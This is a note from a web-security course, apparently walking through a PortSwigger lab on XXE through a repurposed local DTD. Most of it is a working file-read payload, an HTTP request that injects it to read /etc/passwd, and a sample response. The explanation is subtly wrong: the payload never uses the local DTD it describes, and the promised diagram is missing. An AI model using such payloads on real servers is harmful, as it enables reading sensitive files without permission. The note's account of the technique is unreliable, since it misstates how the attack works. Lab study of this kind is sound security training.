

## Exploiting XXE to Retrieve Data

### Repurposing a Local DTD

To exploit the XXE vulnerability, we need to redefine an entity in a local DTD. A Document Type Definition (DTD) is a set of rules that define the structure of an XML document. By redefining an entity in the DTD, we can control the content that is inserted into the XML document.

#### Identifying the DTD Path

The hint provided suggests that systems using the GNOME desktop environment often have a DTD at the path `/usr/share/xml/docbook/stylesheet/nwalsh/modular/dtd/4.2/docbookxi.dtd`. This DTD contains an entity called `iso-amso`.

#### Redefining the Entity

We will redefine the `iso-amso` entity to reference a sensitive file on the server. For example, we can redefine it to reference the `/etc/passwd` file.

```xml
<!DOCTYPE foo [
  <!ENTITY iso-amso SYSTEM "file:///etc/passwd">
]>
```

#### Injecting the Malicious XML

Now, we will inject the malicious XML into the request.

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 177

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY iso-amso SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&iso-amso;</productId>
  <storeId>2</storeId>
</stockCheck>
```

### Analyzing the Response

After sending the request, we should receive a response that includes the contents of the `/etc/passwd` file.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1024

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

### Understanding the Attack Chain

Let's break down the attack chain using a mermaid diagram.



### Common Mistakes and Pitfalls

1. **Incorrect Entity Name**: Ensure that the entity name matches the one defined in the DTD.
2. **Incorrect File Path**: Verify that the file path is correct and accessible.
3. **Parser Configuration**: Ensure that the XML parser is not configured to disable external entity resolution.

---
<!-- nav -->
[[06-Enumerating DTDs|Enumerating DTDs]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[08-How to Prevent  Defend Against XXE Injection|How to Prevent  Defend Against XXE Injection]]
